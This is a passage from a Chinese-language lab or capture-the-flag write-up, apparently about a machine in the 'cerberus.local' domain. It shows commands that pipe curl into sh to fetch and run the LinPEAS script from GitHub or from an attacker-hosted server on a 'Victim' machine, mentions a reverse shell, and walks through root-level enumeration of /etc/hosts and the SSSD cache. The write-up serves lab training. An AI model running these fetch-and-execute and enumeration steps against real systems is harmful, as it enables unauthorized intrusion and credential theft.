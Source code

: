     lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
            inet 127.0.0.1  netmask 255.0.0.0
            inet6 ::1  prefixlen 128  scopeid 0x10<host>
            loop  txqueuelen 1000  (Local Loopback)
            RX packets 13052  bytes 998768 (998.7 KB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 13052  bytes 998768 (998.7 KB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

## LinPEAS

安装

```shell
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# Local network
sudo python -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

```

![](https://i.328888.xyz/2023/04/12/iXO5gV.png)

## 信息搜集 + 密码破解

读取了一个奇怪的文件，然后反弹 shell 拿到的终端就炸掉了、、、、、、

![](https://i.328888.xyz/2023/04/12/iXOM6x.png)

读取 /etc/hosts

    root@icinga:/var/lib/sss/db# cat /etc/hosts
    cat /etc/hosts
    127.0.0.1 iceinga.cerberus.local iceinga
    127.0.1.1 localhost
    172.16.22.1 DC.cerberus.local DC cerberus.local

    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

发现域控主机: **172.16.22.1 DC.cerberus.local DC cerberus.local**

### SSSD

> 因为有域的存在，检查 SSSD，目录在 `/var/lib/sss/db`（SSSD 是一种常见的 Linux 系统服务，提供了与 LDAP，Kerberos 和其他身份验证和授权服务的集成。
>
> SSSD 提供了一种缓存机制，可以将身份验证和授权数据缓存在本地计算机上，以便在进行身份验证和授权时更快地访问这些数据。）
